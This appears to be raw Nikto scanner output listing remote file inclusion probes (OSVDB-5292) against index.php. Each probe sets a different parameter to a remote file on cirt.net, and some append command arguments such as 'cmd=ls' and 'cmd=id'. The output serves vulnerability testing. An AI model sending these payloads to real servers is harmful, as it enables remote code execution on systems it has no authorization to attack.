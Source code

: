 ```
+ OSVDB-5292: GET /index.php?news7[\"functions\"]=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?news_include_path=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?open=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?option=com_custompages&cpage=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?page=http://cirt.net/rfiinc.txt?%00: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?pagehttp://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?page[path]=http://cirt.net/rfiinc.txt??&cmd=ls: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?pageNikto=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?pagename=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?pager=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?pagina=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?path_to_folder=http://cirt.net/rfiinc.txt??cmd=id: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?pg=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?pg=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?phpbb_root_path=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?plugin=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?principal=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?proMod=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?proMod=http://cirt.net/rfiinc.txt??cmd: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?project=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?repinc=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?root_prefix=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?root_prefix=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?section=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?site=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?site_path=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?styl[top]=http://cirt.net/rfiinc.txt???: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?template=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?templates_dir=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?theme=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?themepath=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
```